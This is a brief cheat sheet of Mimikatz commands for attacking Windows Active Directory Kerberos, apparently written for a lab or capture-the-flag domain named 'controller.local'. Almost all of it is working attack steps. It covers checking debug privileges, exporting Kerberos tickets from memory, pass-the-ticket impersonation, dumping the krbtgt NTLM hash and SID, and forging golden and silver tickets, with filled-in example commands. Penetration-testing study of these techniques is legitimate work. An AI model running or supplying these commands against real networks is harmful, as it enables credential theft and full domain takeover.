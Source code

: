 ### check privs
`privilege::debug`
Output '20' means you have admin privs

---

### export .kirbi tickets into current dir
`sekurlsa::tickets /export`

try looking for admin ticket from krbtgt

---

### pass the ticket
`kerberos::ptt <ticket>` 
will cache and impersonate given ticket

example: 
```
kerberos::ptt [0;2a7822]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```

you will now have the ticket in your cache. you can verify in cmd using `klist`

---

### golden ticket

`lsadump::lsa /inject /name:krbtgt` 
will dump NTLM hash and SID needed to create golden ticket

for silver ticket you need to change `/name:` to dump hash of domain admin or service account

Creating the golden ticket:
`kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:`

example:
```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-15021
58860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```

to create a silver ticket - put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.





